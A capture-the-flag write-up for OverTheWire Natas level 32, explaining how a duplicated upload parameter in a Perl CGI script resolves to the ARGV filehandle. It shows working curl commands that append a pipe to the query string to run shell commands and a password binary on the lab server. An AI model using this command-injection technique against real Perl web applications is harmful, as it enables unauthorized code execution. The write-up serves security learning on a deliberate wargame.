






# Natas — Level 32 → 33

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-31

## Goal

The same CSV2HTML tool as level 31, with an extra requirement spelled out directly:

    CSV2HTML
    We all like .csv files.
    But isn't a nicely rendered and sortable table much cooler?
    This time you need to prove that you got code exec. There is a binary in the webroot that you need to execute.

## Solution

The source was identical to level 31's:

    my $cgi = CGI->new;
    if ($cgi->upload('file')) {
        my $file = $cgi->param('file');
        print '<table class="sortable table table-hover table-striped">';
        $i=0;
        while (<$file>) {
            my @elements=split /,/, $_;
            ...

Same bug as before: sending `file` twice (once as the literal text `"ARGV"`, once as a real upload) makes `$cgi->param('file')` return `"ARGV"` in scalar context, and `while (<"ARGV">)` symbolically resolves to Perl's real `ARGV` filehandle, reading from whatever's listed in `@ARGV` — populated via a bare, `=`-free query string. This time, instead of just naming a file, the query string ended in a pipe character. Perl's file-reading machinery treats a name ending in `|` as a command to run, not a file to open — the same open()-pipes-to-shell behavior from level 29, just reached through `@ARGV` instead of a direct filename:

    curl -u natas32:<password> \
      "http://natas32.natas.labs.overthewire.org/index.pl?ls%20/var/www/natas/natas32/%20|" \
      -F 'file=ARGV' -F 'file=@test.csv'

The response table came back as a directory listing instead of CSV data:

    /var/www/natas/natas32/:
    bootstrap-3.3.6-dist
    getpassword
    index-source.html
    index.pl
    jquery-1.12.3.min.js
    sorttable.js
    tmp

`getpassword` was exactly the binary the level description pointed at. Same trick again, this time running it directly instead of `ls`:

    curl -u natas32:<password> \
      "http://natas32.natas.labs.overthewire.org/index.pl?/var/www/natas/natas32/getpassword%20|" \
      -F 'file=ARGV' -F 'file=@test.csv'

Its output came back as the table's contents:

## Result

    Password for natas33: [REDACTED]

## Key Takeaway

The same underlying primitive — a scalar filehandle resolving symbolically to `ARGV`, fed by a query string CGI.pm parses as bare command-line arguments — extends from arbitrary file read (level 31) straight to arbitrary command execution the moment one of those "arguments" ends in `|`. Perl's file-open functions treating a trailing pipe as "run this instead of opening it" is a decades-old, well-documented gotcha, and it doesn't matter whether that string reaches the open call directly or through several layers of parameter indirection — the shell still runs it the same way.
